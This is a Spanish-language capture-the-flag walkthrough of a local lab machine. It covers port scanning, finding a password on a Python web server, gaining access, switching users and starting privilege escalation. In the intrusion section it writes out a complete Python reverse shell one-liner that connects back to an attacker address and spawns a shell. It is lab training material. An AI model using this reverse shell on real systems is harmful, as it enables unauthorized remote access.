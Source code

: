 # Máquina

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80,7777 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing web

hice fuzzing web con gobuster pero no encontré nada más que el index.php

como podemos ver tenemos un servidor http con python levantado por el puerto 7777, entramos por la url a ese puerto, hay un directorio secret y dentro de este hay un archivo history.txt, lo descargué y visualicé una contraseña.

![alt text](image-3.png)


![alt text](image-2.png)

entro en http://172.17.0.2

![alt text](image-5.png)

y escribo la contraseña encontrada

![alt text](image-4.png)

me arrojó a esta vista

![alt text](image-6.png)

### Intrusión

Como me permite crear scripts entonces cree una reverse shell y la ejecuté.

reverse shell en python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

![alt text](image-8.png)

me puse en escucha con netcat por el puerto 443

![alt text](image-7.png)


![alt text](image-9.png)

tratamiento de la tty

vi los usuarios del sistema:

![alt text](image-10.png)

Cambiar al usuario codebad

en /home/codebad/secret encontré un archivo adivinanza.txt

![alt text](image-11.png)

lo que me hizo asumir que malware es la contraseña de codebad

siendo el usuario codebad

![alt text](image-12.png)

ejecuté

![alt text](image-13.png)

me puse en escucha con netcat por el puerto 4445

![alt text](image-14.png)

ahora soy el usuario metadata

### Escalar privilegios

Siendo el usuario metadata ejecuté, para ver permisos de ejecución sobre que archivos tenía

find / -type f -perm -o+x 2>/dev/null

y hay /usr/local/bin/metadatosmalos

entonces asumí que la contraseña del usuario metadata es metadatosmalos

![alt text](image-15.png)
